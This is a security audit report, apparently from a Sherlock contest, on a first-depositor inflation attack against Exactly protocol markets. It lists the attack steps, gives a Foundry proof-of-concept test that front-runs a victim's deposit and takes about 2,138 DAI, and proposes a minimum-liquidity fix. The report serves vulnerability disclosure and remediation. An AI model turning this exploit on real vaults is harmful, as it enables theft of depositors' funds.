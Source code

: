 Itchy Candy Bat

high

# First Depositor Attack

## Summary

The first depositor of a market can steal part of the funds deposited by the next users. 

## Vulnerability Detail

A malicious user can perform a donation to execute a classic first depositor/ERC4626 inflation Attack against the new Exactly markets. The general process of this attack is well-known, and a detailed explanation of this attack can be found in many of the resources such as the following:

- https://blog.openzeppelin.com/a-novel-defense-against-erc4626-inflation-attacks
- https://mixbytes.io/blog/overview-of-the-inflation-attack

The sequence of the attack is the following:
1. The first user on the market deposits liquidity and takes a loan
2. After just one block, the attacker repays all the debt and withdraws liquidity except 1 wei.
    - At this point `totalSupply = 1` and `totalAssets = 2`.
3. After some time, a victim deposits liquidity in the market 
4. The attacker frontruns the victim's transaction by inflating the assets per share.
    - To do that, the attacker mints 1 share and withdraws 1 asset in a loop
5. When the victim deposits the liquidity, just 1 wei of shares is minted due to the rounding down.
6. Finally, the attacker redeems his one share, stealing part of the victim's deposit.

Moreover, after the attack is executed, the pool will be left in a dangerous state because the assets per share are still a huge amount. This will cause two possible scenarios for the next users depositing liquidity:

- If the next users don't deposit enough liquidity to mint 1 share, the transactions will revert causing a DoS.
- If the next users deposit enough to mint some shares (or just one), some of their assets will also be lost to the first victim due to the rounding down. 

## Impact

The first depositor of a market will steal part of the funds deposited by the next users. 

## PoC

The following PoC can be pasted in the `Market.t.sol` file and run with the following command `forge test --match-test test_inflation_attack`.

```solidity
function test_inflation_attack() external {
    uint256 attackerBalanceBefore = market.asset().balanceOf(address(this));

    // Attacker deposits and borrows to inflate the totalAssets
    market.deposit(100e18, address(this));
    market.borrow(50e18, address(this), address(this));

    // After just one block, the attacker repays all debt and withdraws all assets except 1 wei
    vm.warp(block.timestamp + 10);
    market.refund(50e18, address(this));
    market.redeem(100e18 - 1, address(this), address(this));

    assertEq(market.totalSupply(), 1);
    assertEq(market.totalAssets(), 2);

    // Now the attacker waits for a victim
    vm.warp(block.timestamp + 1 days);

    // The victim is going to deposit 10,000 DAI (10_000e18)
    address victim = makeAddr("victim");
    uint256 depositAmount = 9_000e18;

    // Before, the attacker frontruns the victim by inflating the totalAssets
    while (market.totalAssets() < depositAmount / 2) {
      market.mint(1, address(this));
      market.withdraw(1, address(this), address(this));
    }

    // The victim deposits 10,000 DAI
    MockERC20(address(market.asset())).mint(victim, depositAmount);
    vm.startPrank(victim);
    market.asset().approve(address(market), depositAmount);
    market.deposit(depositAmount, victim);
    vm.stopPrank();

    // The victim has minted only 1 share
    assertEq(market.balanceOf(victim), 1);

    // Now, attacker steals part of the victim's assets
    market.redeem(1, address(this), address(this));

    uint256 attackerBalanceAfter = market.asset().balanceOf(address(this));
    uint256 attackerProfit = attackerBalanceAfter - attackerBalanceBefore;

    // Attacker has stolen 2138 DAI from the victim
    assertEq(attackerProfit, 2138816758565177393151);

    // The victim has lost 2138 DAI
    assertEq(market.totalAssets(), depositAmount - attackerProfit);
    assertEq(market.previewRedeem(market.balanceOf(victim)), depositAmount - attackerProfit);
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L710

## Tool used

Manual Review

## Recommendation

To mitigate this issue is recommended to enforce a minimum liquidity of assets that must remain in the market always. 

Here is a possible implementation of the mitigation:

```diff

  /// @notice Hook to update the floating pool average, floating pool balance and distribute earnings from accumulator.
  /// @param assets amount of assets to be withdrawn from the floating pool.
  function beforeWithdraw(uint256 assets, uint256) internal override whenNotPaused {
    updateFloatingAssetsAverage();
    depositToTreasury(updateFloatingDebt());
    uint256 earnings = accrueAccumulatedEarnings();
    uint256 newFloatingAssets = floatingAssets + earnings - assets;
    // check if the underlying liquidity that the account wants to withdraw is borrowed
    if (floatingBackupBorrowed + floatingDebt > newFloatingAssets) revert InsufficientProtocolLiquidity();
    floatingAssets = newFloatingAssets;
+   require(totalAssets() > 1e6);
  }

  /// @notice Hook to update the floating pool average, floating pool balance and distribute earnings from accumulator.
  /// @param assets amount of assets to be deposited to the floating pool.
  function afterDeposit(uint256 assets, uint256) internal override whenNotPaused whenNotFrozen {
    updateFloatingAssetsAverage();
    uint256 treasuryFee = updateFloatingDebt();
    uint256 earnings = accrueAccumulatedEarnings();
    floatingAssets += earnings + assets;
    depositToTreasury(treasuryFee);
    emitMarketUpdate();
+   require(totalAssets() > 1e6);
  }
```